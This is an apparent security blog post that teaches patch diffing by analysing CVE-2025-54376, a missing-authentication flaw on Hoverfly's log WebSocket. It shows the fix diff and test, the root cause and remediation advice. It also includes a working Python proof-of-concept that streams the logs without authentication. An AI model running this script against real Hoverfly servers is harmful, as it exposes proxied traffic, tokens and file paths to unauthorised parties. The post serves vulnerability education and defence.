


> **TL;DR:** Hoverfly <=1.11.3 exposed its `/api/v2/ws/logs` WebSocket without auth; anyone could stream live logs. Fixed in 1.12.0.

# Summary

> A missing authentication middleware on a WebSocket admin endpoint in Hoverfly allows unauthenticated attackers to stream real-time application logs and potentially exfiltrate sensitive information.

-   **CVE:** CVE-2025-54376
-   **Product:** Hoverfly (open source API simulation tool)
-   **Vulnerability:** Authentication Bypass / Sensitive Information Disclosure
-   **Affected Versions:** <= 1.11.3
-   **Fixed In:** 1.12.0
-   **CVSS 4.0 Severity:** 8.8 (critical)
-   **Required Privilege:** None (remote, unauthenticated)
-   **NVD Published:** 09-10-2025

The admin WebSocket endpoint `/api/v2/ws/logs` was not protected by the token authentication middleware used by the REST admin API. Unauthenticated clients could connect and stream logs containing file paths, proxied request/response bodies, and other sensitive data. The fix applies `RequireTokenAuthentication` to the WebSocket route and adds a test asserting a 401 for unauthenticated access.

# Introduction

I want to kick off this blog with a short introductory tutorial into vulnerability research. We'll pick a recent CVE and look at the root cause, exploitability and remediation.

Some criteria for the selection:

-   CVE published today (18-09-25)
-   Open source (easy patch diffing)
-   Small, focused fix making root cause trivial to explain

## Choosing a CVE

The first step is picking a candidate CVE. Some common sources:

-   [NVD](https://nvd.nist.gov/vuln) and [MITRE](https://cve.mitre.org/) for the official feed of new CVEs
-   [GitHub Security Advisories](https://github.com/advisories) for open source projects, often linking straight to the fix commit
-   Vendor advisories / PSIRTs like [Apache](https://httpd.apache.org/security/), [Debian](https://www.debian.org/security/), [Cisco](https://sec.cloudapps.cisco.com/security/center/publicationListing.x) for timely patches with CVE references
-   [Exploit-DB](https://www.exploit-db.com/) and [Metasploit PRs](https://github.com/rapid7/metasploit-framework/pulls) for CVEs that already have proof-of-concepts

Why might we opt for open source? It makes patch diffing trivial; you can grab vulnerable and patched versions from git, run `git diff`, and immediately see what changed. Version control gives you a clean view of the root cause, and small, well-scoped fixes (bounds checks, input validation, auth logic) are perfect for quick analysis.

If we picked closed source, things get harder. You're usually stuck with vendor firmware blobs or installers, and no clean view of what changed. Patch diffing means working with raw binaries in tools like Ghidra, Cutter or BinDiff, and often involves a lot of guesswork. It is still doable, but setup takes longer and the scope can be huge (thousands of functions touched). We'll increase in complexity throughout this writeup series 👀

In this instance, I check [most recent](https://nvd.nist.gov/vuln/search#/nvd/home?sortOrder=3&sortDirection=2&resultType=records) CVEs on the NVD search page. I was going to go for the very first one ([CVE-2025-10667](https://nvd.nist.gov/vuln/detail/CVE-2025-10667)); SQL injection on an open source web app.



That was until I did a quick investigation. The site (itsourcecode) hosts downloadable source code in ZIP format. The CVE is for a "Online Discussion Forum 1.0", which is essentially a PHP website template [from 2015](https://itsourcecode.com/wp-content/uploads/2015/11/bcc_forum.zip).

### CVE Farming (Side-rant)

Really? People are submitting CVEs like this? Yep, as of today there's 339 CVEs disclosed for [itsourcecode](https://nvd.nist.gov/vuln/search#/nvd/home?sortOrder=3&sortDirection=2&keyword=itsourcecode&resultType=records). Many are just the same vuln reported on different endpoints 😩



In one case, the same vulnerability is disclosed on a different endpoint within a 24 hour period. The PoC/writeups look identical, but they are submitted by different users, e.g. [CVE-2025-10033](https://github.com/insider-w/CVE/issues/1) vs [CVE-2025-10068](https://github.com/JunGu-W/cve/issues/13).

[CVE-2025-10667](https://github.com/S77code/CVE1/issues/1) a week later is yet another GitHub account, with the same writeup - sometimes they don't even update the endpoint in the PoC 🙄 Anyway, I hear people talking about CVE farming but this seems ridiculous (and possibly automated).

# CVE-2025-54376: Authentication Middleware Missing for WebSocket Endpoint

[CVE-2025-54376](https://nvd.nist.gov/vuln/detail/CVE-2025-54376) looks like a better candidate. It's an improper authentication / sensitive information disclosure vulnerability in the open-source [hoverfly project](https://github.com/SpectoLabs/hoverfly).

> Hoverfly is an open source API simulation tool. In versions 1.11.3 and prior, Hoverfly’s admin WebSocket endpoint /api/v2/ws/logs is not protected by the same authentication middleware that guards the REST admin API. Consequently, an unauthenticated remote attacker can stream real-time application logs (information disclosure) and/or gain insight into internal file paths, request/response bodies, and other potentially sensitive data emitted in logs. Version 1.12.0 contains a fix for the issue.

According to the advisory, the patch ([commit](https://github.com/SpectoLabs/hoverfly/commit/ffc2cc34563de67fe1a04f7ba5d78fa2d4564424) `ffc2cc34563de67fe1a04f7ba5d78fa2d4564424`) ensures the same authentication requirements applied to REST endpoints now apply to WebSocket connections.

-   Affected: Hoverfly <= 1.11.3
-   Fixed in: Hoverfly 1.12.0

## Patch Diffing

In some cases, developers bury their security fixes among many other changes, making analysis painful when working with large binaries. Thankfully, this patch is very easy to diff 🙏 Two files changed, the first is `logs_handler.go`

```diff
diff --git a/core/handlers/v2/logs_handler.go b/core/handlers/v2/logs_handler.go
index d4dc361ef..406c53c6c 100644
--- a/core/handlers/v2/logs_handler.go
+++ b/core/handlers/v2/logs_handler.go
@@ -39,7 +39,10 @@ func (this *LogsHandler) RegisterRoutes(mux *bone.Mux, am *handlers.AuthHandler)
 		negroni.HandlerFunc(this.Options),
 	))

-	mux.Get("/api/v2/ws/logs", http.HandlerFunc(this.GetWS))
+	mux.Get("/api/v2/ws/logs", negroni.New(
+		negroni.HandlerFunc(am.RequireTokenAuthentication),
+		negroni.Wrap(http.HandlerFunc(this.GetWS)),
+	))
 }

 func (this *LogsHandler) Get(w http.ResponseWriter, req *http.Request, next http.HandlerFunc) {
```

Here's the important bit; the `RequireTokenAuthentication` check was added to the WebSocket endpoint (`/api/v2/ws/logs`).

```go
mux.Get("/api/v2/ws/logs", negroni.New(
		negroni.HandlerFunc(am.RequireTokenAuthentication),
		negroni.Wrap(http.HandlerFunc(this.GetWS)),
	))
}
```

The other changed file is `start_test.go`

```diff
diff --git a/functional-tests/hoverctl/start_test.go b/functional-tests/hoverctl/start_test.go
index aaa91a4e9..be20c41dc 100644
--- a/functional-tests/hoverctl/start_test.go
+++ b/functional-tests/hoverctl/start_test.go
@@ -185,6 +185,9 @@ var _ = Describe("hoverctl `start`", func() {
 			response := functional_tests.DoRequest(sling.New().Get("http://localhost:8888/api/v2/hoverfly"))
 			Expect(response.StatusCode).To(Equal(401))

+			response = functional_tests.DoRequest(sling.New().Get("http://localhost:8888/api/v2/ws/logs"))
+			Expect(response.StatusCode).To(Equal(401))
+
 			response = functional_tests.DoRequest(sling.New().Post("http://localhost:8888/api/token-auth").BodyJSON(backends.User{
 				Username: functional_tests.HoverflyUsername,
 				Password: functional_tests.HoverflyPassword,
```

It's just adding a new unit test to ensure that unauthenticated users receive a 401 (unauthorised) response code when accessing the `/logs` endpoint.

```go
response = functional_tests.DoRequest(sling.New().Get("http://localhost:8888/api/v2/ws/logs"))
Expect(response.StatusCode).To(Equal(401))
```

## Root Cause Analysis

The bug is simple: REST endpoints were already protected with the `RequireTokenAuthentication` middleware, but the WebSocket endpoint `/api/v2/ws/logs` was not. That meant an unauthenticated client could upgrade to a WebSocket and stream logs directly.

In code terms:

```go
// vulnerable
mux.Get("/api/v2/ws/logs", http.HandlerFunc(this.GetWS))

// patched
mux.Get("/api/v2/ws/logs", negroni.New(
	negroni.HandlerFunc(am.RequireTokenAuthentication),
	negroni.Wrap(http.HandlerFunc(this.GetWS)),
))
```

Key points:

-   Auth middleware was missing on the WS route, so no token check occurred during the upgrade handshake.
-   This exposed sensitive logs (file paths, tokens, request/response bodies) to any remote attacker with network access.
-   The fix wraps the handler with `RequireTokenAuthentication`, enforcing the same authentication process as the REST API.

## Exploitability

The [GH security advisory](https://github.com/SpectoLabs/hoverfly/security/advisories/GHSA-jxmr-2h4q-rhxp) contains a basic PoC, which is automated below. It demonstrates that a remote attacker can bypass authentication and receive full application logs, including proxied request/response bodies, tokens, file paths, etc.

### PoC

```python
import argparse, sys, time, websocket

def main():
    p=argparse.ArgumentParser()
    p.add_argument("--host", required=True)
    p.add_argument("--port", type=int, default=8888)
    p.add_argument("--path", default="/api/v2/ws/logs")
    p.add_argument("--scheme", choices=["ws","wss"], default="ws")
    p.add_argument("--token", default="")
    p.add_argument("--origin", default="")
    p.add_argument("--timeout", type=int, default=10)
    args=p.parse_args()

    url=f"{args.scheme}://{args.host}:{args.port}{args.path}"
    headers=[]
    if args.token:
        headers.append(f"Authorization: Bearer {args.token}")
    if args.origin:
        headers.append(f"Origin: {args.origin}")

    ws=websocket.WebSocketApp(url, header=headers, on_message=lambda w,m: print(m), on_error=lambda w,e: sys.stderr.write(str(e)+"\n"), on_close=lambda w,c,m: sys.stderr.write("closed\n"))
    def on_open(w):
        try:
            w.send("meow")
        except Exception as e:
            sys.stderr.write(str(e)+"\n")
    ws.on_open=on_open
    try:
        ws.run_forever(ping_interval=30, ping_timeout=10, ping_payload="ping", timeout=args.timeout)
    except KeyboardInterrupt:
        pass

if __name__=="__main__":
    main()
```

```bash
python poc.py --host 127.0.0.1 --port 8888

{"logs":[{"level":"info","msg":"Log level set to verbose","time":"2025-07-20T17:07:00+05:30"}]}
{"logs":[{"level":"info","msg":"Using memory backend","time":"2025-07-20T17:07:01+05:30"}]}
{"logs":[{"level":"info","msg":"Proxy prepared...","time":"2025-07-20T17:07:02+05:30","Destination":".","ProxyPort":"8500"}]}
{"logs":[{"level":"debug","msg":"Got message...","message":"meow!","time":"2025-07-20T17:09:04+05:30"}]}
```

## Remediation

Upgrade to Hoverfly v1.12.0 or later.

# Conclusion

In this first CVE analysis post, we took a look at a very recent, but simple vulnerability. A key lesson here is that middleware inconsistencies (REST vs WebSocket) are a surprisingly common source of auth bypasses. The next patch-diffing exercise will be harder, and include some binary reversing 🧠

# References

-   https://nvd.nist.gov/vuln/detail/CVE-2025-54376
-   https://github.com/SpectoLabs/hoverfly/security/advisories/GHSA-jxmr-2h4q-rhxp
-   https://github.com/SpectoLabs/hoverfly/commit/ffc2cc34563de67fe1a04f7ba5d78fa2d4564424
